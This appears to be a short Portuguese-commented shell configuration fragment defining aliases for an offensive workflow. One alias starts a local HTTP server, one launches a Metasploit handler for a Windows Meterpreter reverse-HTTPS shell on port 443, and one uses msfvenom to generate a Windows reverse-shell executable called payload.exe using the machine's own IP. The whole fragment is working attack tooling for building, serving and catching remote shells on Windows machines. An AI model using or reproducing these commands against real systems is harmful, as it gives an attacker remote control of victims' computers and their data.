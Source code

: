 # ==============================
# PERSONALIZAÇÕES CUSTOMIZADAS
# ==============================

# Alias para iniciar o servidor HTTP local
alias servidor='bash ~/start_http_server.sh'

# Alias dinâmico para iniciar o listener do Metasploit detectando IP automaticamente
alias listener='IP=$(hostname -I | awk "{print $1}"); msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_https; set LHOST $IP; set LPORT 443; exploit"'

# Alias para gerar payload automaticamente (IP dinâmico + porta 443)
alias payload='IP=$(hostname -I | awk "{print $1}"); msfvenom -p windows/meterpreter/reverse_https LHOST=$IP LPORT=443 -f exe -o ~/payload.exe && echo "Payload gerado em ~/payload.exe com IP $IP e porta 443"'
